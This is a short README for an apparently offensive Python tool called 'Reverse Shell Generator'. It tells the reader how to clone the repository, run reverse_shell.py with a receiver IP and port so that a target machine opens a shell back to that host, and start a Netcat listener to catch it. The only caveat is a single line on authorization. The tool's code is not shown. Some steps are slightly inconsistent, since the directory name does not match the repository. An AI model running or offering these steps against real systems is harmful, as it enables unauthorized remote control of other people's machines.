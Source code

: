 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/0smic/Strike/
2. Change into the project directory:
   ```bash
   cd 0smic

## Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER

# How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace RECEIVER_IP with the IP address of the machine you want to receive shell.
- Replace PORT_NUMBER with the port number to connect to on the machine you wan to receive shell.
- The script will create a reverse shell connection to the specified IP and port.

## IMPORTANT

You want to start listening to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp PORT_NUMBER
